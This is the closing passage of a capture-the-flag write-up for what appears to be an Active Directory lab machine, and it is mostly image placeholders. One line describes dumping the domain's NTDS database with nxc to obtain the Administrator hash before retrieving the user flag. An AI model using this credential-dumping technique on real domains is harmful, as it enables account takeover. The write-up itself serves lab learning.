

### root.txt



### user.txt

Afterwards I went looking for the `user.txt` flag since I couldn't find it on this machine. To make my life easier I dumped `ntds` using `nxc` so I can dump the *Administrator* hash of the domain:



The `user.txt` was then discovered within the *a.white* user's `Desktop` directory 







</PasswordProtect>

---
